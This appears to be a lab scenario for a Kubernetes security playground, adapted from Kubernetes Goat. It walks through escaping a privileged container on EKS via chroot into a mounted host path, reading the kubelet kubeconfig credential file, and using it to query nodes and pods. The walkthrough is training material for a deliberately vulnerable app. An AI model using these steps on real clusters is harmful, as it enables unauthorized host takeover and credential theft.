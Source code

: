 # Scenario: Escape to the Host System

## Prerequisites

- Vision One Container Security
- Playground One EKS Cluster
  - Running app: System Monitor

## Attribution

This scenario is based on [Kubernetes Goat](https://madhuakula.com/kubernetes-goat/docs/) but adapted to work an Playground One and EKS.

## Disclaimer

> ***Note:*** It is highly recommended to have the `awsone.access_ip` set to a single IP or at least a small CIDR before deploying the EKS cluster. This will prevent anonymous users playing with your environmnent. Remember: we're using vulnerable apps.

## Overview

This scenario showcases the common misconfigurations and one of the error-prone security issues in Kubernetes, container environments, and the general security world. Giving privileges that are not required for things always makes security worse. This is especially true in the containers and Kubernetes world. You can also apply this scenario further and beyond the container to other systems and services based on the configuration and setup of the cluster environments and resources. In this scenario you will see a privileged container escape to gain access to the host system.

By the end of the scenario, you will understand and learn the following:

- Able to exploit the container and escape out of the docker container
- You will learn to test and exploit the misconfigured and privileged containers
- Learn about common misconfigurations and possible damage due to them for the containers, Kubernetes, and clusterized environments

## The story

Most of the monitoring, tracing, and debugging software requires extra privileges and capabilities to run. In this scenario, you will see a pod with extra capabilities and privileges including HostPath allowing you to gain access to the host system and provide Node level configuration to gain complete cluster compromise.

> ***Note:*** To get started with the scenario, navigate to http://<loadbalancer_dns_system_monitor>

## Goals

The goal of this scenario is to escape out of the running docker container on the host system using the available misconfigurations. The secondary goal is to use the host system-level access to gain other resources access and if possible even go beyond this container, node, and cluster-level access.

> ***Tip:*** Gain access to the host system and obtain the node level kubeconfig file /var/lib/kubelet/kubeconfig, and query the Kubernetes nodes using the obtained configuration.

### Hints

<details>
<summary>Click here</summary>

*✨ Are you still in the container?*

See the mounted file systems, also look the capabilities available for the container using capsh 🙌

*✨ Escaped container?*

You can recon the system, some interesting places to obtain the node level configuration are /var/lib/kubelet/kubeconfig and I hope you know how to query Kubernetes API for nodes? 🎉
</details>

## Solution & Walkthrough

<details>
<summary>Click here</summary>
After performing the analysis, you can identify that this container has full privileges of the host system and allows privilege escalation. As well as /host-system is mounted.

```sh
$ capsh --print
```

```sh
$ mount
```

Now you can explore the mounted file system by navigating to the /host-system path

```sh
$ ls /host-system/
```

You can gain access to the host system privileges using chroot

```sh
$ chroot /host-system bash
```

As you can see, now you can access all the host system resources like docker containers, configurations, etc.

Trying to use the docker client fails.

```sh
$ docker ps
```

```ascii
bash: docker: command not found
```

This does not work, since we're on a Kubernetes optimized node OS with no docker provided.

```sh
$ uname -a
```

```ascii
Linux system-monitor-6dfbdbb7d-w6mdv 5.10.184-175.749.amzn2.x86_64 #1 SMP Wed Jul 12 18:40:28 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
```

The Kubernetes node configuration can be found at the default path, which is used by the node level kubelet to talk to the Kubernetes API Server. If you can use this configuration, you gain the same privileges as the Kubernetes node.

```sh
$ cat /var/lib/kubelet/kubeconfig
```

```ascii
apiVersion: v1
kind: Config
clusters:
- cluster:
    certificate-authority: /etc/kubernetes/pki/ca.crt
    server: https://BD215DBE2E4127977439D904B2AD3307.gr7.eu-central-1.eks.amazonaws.com
  name: kubernetes
contexts:
- context:
    cluster: kubernetes
    user: kubelet
  name: kubelet
current-context: kubelet
users:
- name: kubelet
  user:
    exec:
      apiVersion: client.authentication.k8s.io/v1beta1
      command: /usr/bin/aws-iam-authenticator
      args:
        - "token"
        - "-i"
        - "playground-one-eks"
        - --region
        - "eu-central-1"
```

Sadly, there is no `kubectl` as well.

```sh
$ kubectl
```

```ascii
bash: kubectl: command not found
```

Trying to use the package manager `yum` will not solve the problem. But navigating to <https://kubernetes.io/docs/tasks/tools/install-kubectl-linux/#install-kubectl-binary-with-curl-on-linux> will help:

```sh
$ cd
$ curl -LO "https://dl.k8s.io/release/$(curl -L -s https://dl.k8s.io/release/stable.txt)/bin/linux/amd64/kubectl"
$ chmod +x kubectl
```

Try to get the available nodes of our cluster:

```sh
$ ./kubectl --kubeconfig /var/lib/kubelet/kubeconfig get nodes 
```

```ascii
NAME                                            STATUS   ROLES    AGE   VERSION
ip-10-0-152-251.eu-central-1.compute.internal   Ready    <none>   56m   v1.25.11-eks-a5565ad
ip-10-0-169-117.eu-central-1.compute.internal   Ready    <none>   56m   v1.25.11-eks-a5565ad
```

Can you do more?

```sh
$ ./kubectl --kubeconfig /var/lib/kubelet/kubeconfig get pods -A
```

```sh
$ ./kubectl --kubeconfig /var/lib/kubelet/kubeconfig get nodes 
```

```ascii
NAME                                            STATUS   ROLES    AGE   VERSION
ip-10-0-152-251.eu-central-1.compute.internal   Ready    <none>   76m   v1.25.11-eks-a5565ad
ip-10-0-169-117.eu-central-1.compute.internal   Ready    <none>   76m   v1.25.11-eks-a5565ad
````

</details>
